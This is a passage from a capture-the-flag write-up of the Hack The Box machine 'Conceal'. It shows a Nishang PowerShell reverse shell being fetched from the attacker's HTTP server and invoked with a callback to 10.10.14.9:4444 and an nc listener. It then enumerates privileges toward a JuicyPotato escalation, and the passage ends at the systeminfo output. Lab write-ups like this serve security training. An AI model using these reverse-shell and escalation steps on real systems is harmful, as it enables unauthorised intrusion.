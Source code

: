Basically the command we are executing download the script from a python http server which we are gonna open before where is located the **Nishang** script as PS.ps1

As always I am going to put `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.9 -Port 4444` at the end of the **Nishang** script in order to execute the shell.

Now only rests to set a **nc** listener and let the magic happens.

```bash
nc -lv 4444
```

## Gaining an Initial Foothold

![Untitled](/HTB/conceal-7.png)

We are not **NT AUTHORITY\SYSTEM** so we need to **privEsc**.

## Escalating Privilege

First I am going to see the current privileges.

```bash
whoami /priv
```

```bash
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The `SeImpersonatePrivilege` allow us to use tools like [JuicyPotato](https://github.com/ohpe/juicy-potato) to **privEsc**.

First we need to see if our system works with **JuicyPotato**.

```powershell
systeminfo
```

```powershell
Host Name:                 CONCEAL
OS Name:                   Microsoft Windows 10 Enterprise
OS Version:                10.0.15063 N/A Build 15063
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00329-00000-00003-AA343
Original Install Date:     12/10/2018, 20:04:27
System Boot Time:          13/09/2023, 16:35:46
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2295 Mhz
```